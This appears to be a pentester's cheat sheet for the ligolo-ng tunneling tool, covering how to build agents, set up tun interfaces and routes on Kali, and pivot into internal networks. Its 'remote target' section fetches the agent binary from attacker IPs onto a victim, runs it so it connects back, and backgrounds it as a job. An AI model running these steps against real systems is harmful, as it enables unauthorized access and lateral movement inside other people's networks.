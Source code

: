 git clone https://github.com/nicocha30/ligolo-ng.git     
  
# Compiling Agents (If from source)  
  
## Linux Agents/Proxy  
```
go build -o agent cmd/agent/main.go  
go build -o proxy cmd/proxy/main.go  
```
  
## Windows agents  
```
GOOS=windows go build -o agent.exe cmd/agent/main.go  
```
 
# Add interface to kali and turn it on  
```
sudo ip tuntap add user kali mode tun ligolo  
sudo ip link set ligolo up  
sudo ip tuntap add user kali mode tun ligolo_two  
sudo ip link set ligolo_two up  
```
  
# Start ligolo locally  
```
./proxy -selfcert  
```
  
# Put up agent on remote target  
```
IWR http://192.168.45.193/ligolo-ng/agent.exe -UseBasicParsing -Outfile agent.exe 

./agent.exe -connect 192.168.45.193:11601 -ignore-cert  
  
curl http://192.168.45.249/ligolo-ng/agent > /tmp/agent 

./agent -connect 192.168.45.249:11601 -ignore-cert  
```
  
# Run as a another job  
```
start-job -scriptblock {C:\windows\temp\agent.exe -connect 192.168.45.215:11601 -ignore-cert}  
```
  
# Add route locally for to access new networks   
```
sudo ip route add 172.16.6.0/24 dev ligolo  
sudo ip route add 172.16.1.0/24 dev ligolo  
```
# "Magic" IP for accessing an agents localhost  
```
sudo ip route add 240.0.0.1/32 dev ligolo  
sudo ip route add 240.0.0.1/32 dev ligolo
```
# Start tunnel (in ligolo prompts)  
```
session  
(select session)  
start  
```
  
# Tear down ligolo interface  
```
sudo ip link set ligolo down  
sudo ip link del ligolo  
  
```
# Add listeners to agent  
```
listener_add --addr 0.0.0.0:8080 --to 192.168.45.180:80  
listener_add --addr 0.0.0.0:50000 --to 10.10.17.152:50000
```